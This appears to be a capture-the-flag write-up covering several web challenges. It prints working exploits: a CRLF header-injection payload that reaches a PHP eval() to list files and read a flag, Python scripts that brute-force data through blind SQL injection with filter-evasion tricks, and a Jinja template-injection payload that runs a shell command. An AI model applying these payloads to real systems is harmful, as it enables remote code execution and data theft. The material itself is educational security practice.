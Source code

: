 # CuaaS

Take a look to index.php and cleaner.php

You can see in cleaner.php file uses `eval()` funtion, maybe you need to use it to get flag.

```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
	if ($name == "X-Visited-Before"){
		tryandeval($value);
	}}
?>

```

`eval()` function is only called when `X-Visited-Before` header is in request.

Note that `/cleaner.php` must be accessed from localhost (12.0.0.1). So we need to access it via index.php:

```php
function clean_and_send($url){
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			echo 'data';
			$cleanerurl = "http://127.0.0.1:9000/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
    		echo $uncleanedURL;
			}
```

But we can see that there is no `X-Visited-Before` header in request (stream_context_create function) so we need to add it via $uncleanedURL variable (value of url parameter)
. Two headers will be separated by `\r\n`.

So payload for url is something like:

```
url=a%0d%0aX-Visisted-Before:payload;
```

List file in `/`:
```php
url=a%0d%0aX-Visited-Before:var_dump(scandir('/'));
```
![image](https://user-images.githubusercontent.com/83667873/163729406-bd5e981a-3abd-42a0-ba28-e899dac077cb.png)

Read flag:

```php
url=a%0d%0aX-Visited-Before:echo+file_get_contents('/maybethisistheflag');
```

![image](https://user-images.githubusercontent.com/83667873/163729434-9471e559-a49e-46fc-9962-c7741fda968e.png)

# Marvel Pick

After testing, I found that used database is sqlite and we can exploit sqli in character parameter:

![image](https://user-images.githubusercontent.com/83667873/163729601-651ef9c5-d43d-4874-95b1-44bcffd117e7.png)

Here is some filtered words/characters I found (maybe):

`or, select, substr, = , -`

When I enter `or` as input, it returns nothing, so I guess that It will replace `or` which `''`:

![image](https://user-images.githubusercontent.com/83667873/163729782-727a3641-7930-4340-acc6-c5311ace3612.png)

So I try to enter `oorr` and we get `or`. Perfectly, it only replace one time:

![image](https://user-images.githubusercontent.com/83667873/163729863-455970c2-5b06-4aed-b289-fd1deb928004.png)

![image](https://user-images.githubusercontent.com/83667873/163729912-0958284d-2b79-4f77-b9ef-58e7eb1c73c1.png)

Next, we just need to brute to find flag. 

But, note that only only one column return at a time, so I use `limit` to get tables and columns name:

Payload to find tables and columns name:

```
' oorr (unicode(subsubstrstr((seselectlect sql from sqlite_master limit 1,1),{i},1)) like {ord(s)}) union selselectect '1','1
```

![i1](https://user-images.githubusercontent.com/83667873/163730146-155b0741-e98a-4ead-a53e-b94a34a3c0a2.png)

Find flag:

```py
import string
import requests

url = 'http://34.126.83.114:1337/api.php'

partten = string.printable.replace('%','')

def genpayload(i,s):
	return f"' oorr (unicode(subsubstrstr((seselectlect value from flags),{i},1)) like {ord(s)}) union selselectect '1','1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```
![i2](https://user-images.githubusercontent.com/83667873/163730162-7e39f780-6751-4946-995c-a898aa472421.png)

# Marvel Pick Again:

This challenge is similar to Marval Pick, but this challenge is limited number of chars;

```py
import requests
import string

url = 'http://34.126.83.114:3390/api.php'
partten = string.printable.replace('%','').replace("'",'')

#Find number chars
for i in range(1,102):
	r = requests.get(url,params={'character':'a'*i})
	if 'No No NO' in r.text:
		print('[+] Found ',i)
		break
```
![image](https://user-images.githubusercontent.com/83667873/163730258-f3abc5fd-99e1-4a02-9938-f7117786bae3.png)

So we can not use payload use in Marvel Pick.

After a few tries, I found that only `or, select` in lowercase are filtered, It means that we can use  `oR, selEct` or something else:

![image](https://user-images.githubusercontent.com/83667873/163730382-6a84742a-b81b-4a8d-8068-c236927bf68d.png)

Too lazy to brute force, I try the same table name and column name with Marvel Pick, and It work :'))).

Script to find flag:

```py
import requests

url = 'http://34.126.83.114:3390/api.php'
partten = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{|}_\"#$&\'()*+,-./:;<=>?@[\\]^`{|}~"

def genpayload(i,s):
	return f"' oR (suBstr((sElect value from flags),{i},1) like '{s}') union selecT 1,'1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```

# EzChall + EzChall Again
*Note: I solve them after the CTF*

While the CTF is running, I stuck in comparing password. So I cann't solve these challenges. I solve it after read hint in discord.

Payload: 
```
payload={% set a=session.update({"a":lipsum['__glob' 'als__']['os']['popen']('head /flag')['re' 'ad']() })%}
```

## Updating...

